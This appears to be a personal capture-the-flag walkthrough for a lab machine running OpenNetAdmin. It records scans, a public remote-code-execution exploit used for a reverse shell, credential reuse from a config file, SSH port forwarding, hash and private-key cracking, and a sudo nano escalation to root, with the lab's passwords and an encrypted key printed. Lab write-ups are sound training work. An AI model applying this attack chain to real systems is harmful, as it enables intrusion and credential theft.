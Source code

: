 #nmapscan 
```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-29 14:12 IST
Nmap scan report for 10.129.162.212
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
#enumeration 
```
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.171:80
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/29 14:14:12 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/artwork              (Status: 301) [Size: 314] [--> http://10.10.10.171/artwork/]
/index.html           (Status: 200) [Size: 10918]                                 
/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]  
/server-status        (Status: 403) [Size: 277]                                   
                                                                                  
===============================================================
2021/07/29 14:16:15 Finished
```
in the /music i tried to login and got redirected to a directory /ona
now I searched searchsploit
```
---------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                              |  Path
---------------------------------------------------------------------------- ---------------------------------
OpenNetAdmin 13.03.01 - Remote Code Execution                               | php/webapps/26682.txt
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)                | php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                                 | php/webapps/47691.sh
---------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
But it gave a error syntax error of done which can be corrected by running
```
dos2unix test.sh
```
after that run the bash script to get the www-data reverse-shell
but webshell had limited access so uploaded a php reverse shell to get more access 
then in root directory of webshell got
```
cat database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```
here it was the password of jimmy user
then ssh into jimmy but still we had no user flag so we to escalate to joana 
after a bit of enumeration found few open ports that could be forwarded
```
jimmy@openadmin:~$ ss -tulwn
Netid      State        Recv-Q       Send-Q                Local Address:Port                Peer Address:Port       
udp        UNCONN       0            0                     127.0.0.53%lo:53                       0.0.0.0:*          
udp        UNCONN       0            0                           0.0.0.0:68                       0.0.0.0:*          
tcp        LISTEN       0            128                       127.0.0.1:52846                    0.0.0.0:*          
tcp        LISTEN       0            128                   127.0.0.53%lo:53                       0.0.0.0:*          
tcp        LISTEN       0            128                         0.0.0.0:22                       0.0.0.0:*          
tcp        LISTEN       0            80                        127.0.0.1:3306                     0.0.0.0:*          
tcp        LISTEN       0            128                               *:80                             *:*          
tcp        LISTEN       0            128                            [::]:22                          [::]:*  
```
now in the /internal we found 
```
jimmy@openadmin:/etc/apache2/sites-available$ ls
default-ssl.conf  internal.conf  openadmin.conf
jimmy@openadmin:/etc/apache2/sites-available$ cat internal.conf
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
jimmy@openadmin:/etc/apache2/sites-available$ 
```
thus we port forwarded to 52846
link:https://book.hacktricks.xyz/tunneling-and-port-forwarding
```ssh -L 52846:127.0.0.1:52846 jimmy@10.10.10.171```
then ran we opened http://127.0.0.1;52846/ and found a login page 
whose passwd was found in /var/www/internal/index.php
```if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
```
got the hash cracked it to get passwd ```Revealed```
then login to get id-rsa of joanna
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
```
used john to get the passphrase and then login to joanna to 
for root 
just
```sudo -l```
then 
see the gtfobin exploit for nano and we get the root

